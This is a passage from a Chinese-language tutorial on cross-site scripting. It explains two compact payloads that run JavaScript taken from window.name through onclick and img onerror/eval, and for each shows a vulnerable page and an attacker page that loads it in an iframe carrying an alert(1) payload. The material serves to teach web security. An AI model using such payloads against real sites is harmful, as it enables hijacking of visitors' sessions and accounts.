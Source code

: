 ### `<i/onclick=URL=name>`

S1:上面的代码文译一下：

```
<i/onclick=document.URL=window.name>

```

S2:其实这段代码和上一段差不多多少，这里就不截图了，简单的讲解一下。通过点击执行事件把 window.name 的内容给 document.URL 然后执行 javascript 代码。那么我们可以怎么利用呢？

存在缺陷的 XSS 页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <i/onclick=URL=name>
    </body>
</html>

```

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <iframe src="11.html" name="javascript:alert(1)"></iframe>
    </body>
</html>

```

### `<img src=x onerror=eval(name)>`

S1:先把代码文译一下：

```
<img src=x onerror=eval(window.name)>

```

S2:邪恶的 eval 又来了。通过 img 元素的 src 属性出错，执行 onerror 事件，通过邪恶的 eval 执行 window.name 里面的代码。

S3:那我们怎么来实现呢？

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <iframe src="11.html" name="alert(1)"></iframe>
    </body>

```
